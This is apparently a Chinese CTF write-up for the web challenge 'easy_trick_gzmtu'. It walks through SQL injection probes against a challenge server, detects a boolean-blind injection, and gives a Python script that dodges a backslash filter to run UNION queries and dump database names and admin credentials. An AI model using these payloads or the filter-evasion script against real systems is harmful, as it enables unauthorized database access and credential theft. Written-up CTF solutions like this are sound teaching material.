 # 高校战疫

打完这次比赛,我再次认清了自己是个卑微的递茶小弟...

## web



###  **easy_trick_gzmtu**

```
2020\\%27 200
2020%27 500
2020\%27 500
```

可能作为格式化字符串或者过滤`\` ?,继续测试

```
http://121.37.181.246:6333/?time=2020' or 1%23  =>500
http://121.37.181.246:6333/?time=2020or'%23 =>无结果,说明不是过滤or
http://121.37.181.246:6333/?time=2020'%23or=>没有500,说明or不在黑名单中 

```

```
/?time=2020%27%20||1=1%20--+    返回正确结果
/?time=2020%27%20or1=1%20--+   and   &&都页面报错
/?time=-1%27%20||1=0%20--+   页面的hello world消失，应该存在布尔盲注
```

```
?time=0'||\i\f(\s\l\e\e\p(2),1,1)%23
成功执行,说明是过滤\
```

```python
import requests,re
sql="union select 1,GROUP_CONCAT(schema_name),3 FROM information_schema.schemata"
#sql="union select 1,GROUP_CONCAT(id,',',username,',',passwd,',',url,','),3 FROM admin"
#admin,content
#admin
#id,username,passwd,url
#0,admin,20200202goodluck,/eGlhb2xldW5n,
tmp=""
for i in sql:
    if i.isalpha():
        tmp+="\\"+i
        #print("\\"+i,end="")
    else:
        tmp+=i
        #print(i,end="")

tmp="http://121.37.181.246:6333/?time=0'+{}%23".format(tmp)
res=requests.get(tmp)
result=re.search(r'<div class="text-c ">(.*)</div>',res.text)
print(result.group(1))
```
